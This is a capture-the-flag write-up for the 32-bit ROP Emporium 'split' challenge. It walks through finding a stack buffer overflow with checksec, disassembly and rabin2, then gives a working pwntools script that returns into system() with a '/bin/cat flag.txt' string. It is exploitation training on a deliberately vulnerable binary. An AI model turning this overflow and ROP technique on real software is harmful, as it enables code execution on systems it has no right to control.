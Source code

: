 # split - 32 Bit
Program execution:
```
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> <input_here>
Thank you!
```
Run checksec: `checksec ./split32`
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Dissassembly shows that `main` executes `pwnme` again. We can see that `pwnme` unsafely reads up to `0x60` bytes into a 32 byte buffer starting at `ebp-0x28`:
```assembly
sub     esp, 0x4
push    0x60 {var_34}
lea     eax, [ebp-0x28 {var_2c}]
push    eax {var_2c} {var_38}
push    0x0
call    read
```
We have more than enough bytes to work with to overwrite the return address at `ebp+0x04`, so now we just need to work out what to jump to. There's no `win` function this time.

We can run `rabin2 -i split32` to view a list of imported functions:
```
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x080483b0 GLOBAL FUNC       read
2   0x080483c0 GLOBAL FUNC       printf
3   0x080483d0 GLOBAL FUNC       puts
4   0x080483e0 GLOBAL FUNC       system
5   0x00000000 WEAK   NOTYPE     __gmon_start__
6   0x080483f0 GLOBAL FUNC       __libc_start_main
7   0x08048400 GLOBAL FUNC       setvbuf
8   0x08048410 GLOBAL FUNC       memset
```
We have `system` from GLIBC so now it's a matter of finding a string which will give us a shell or open the flag file.

Use `rabin2 -z split32` to view a list of all user-added strings:
```
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000006b0 0x080486b0 21  22   .rodata ascii split by ROP Emporium
1   0x000006c6 0x080486c6 4   5    .rodata ascii x86\n
2   0x000006cb 0x080486cb 8   9    .rodata ascii \nExiting
3   0x000006d4 0x080486d4 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x00000703 0x08048703 10  11   .rodata ascii Thank you!
5   0x0000070e 0x0804870e 7   8    .rodata ascii /bin/ls
0   0x00001030 0x0804a030 17  18   .data   ascii /bin/cat flag.txt
```
That last string is exactly what we want! So now we just need to build a rop chain that will execute `system('/bin/cat flag.txt')`

Exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./split32"

p = process(PROG_NAME)
elf = p.elf

if args.ATTACH:
	gdb.attach(p, '''break main''')

cat_flag_addr = 0x0804a030

p.recvuntil(b'> ')

payload = b'A' * (0x28 + 0x4)
payload += p32(elf.symbols['system'])
payload += b'A' * 4 # dummy return address
payload += p32(cat_flag_addr) # argument string address

p.sendline(payload)

p.interactive()
```
And we get our flag:
```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```
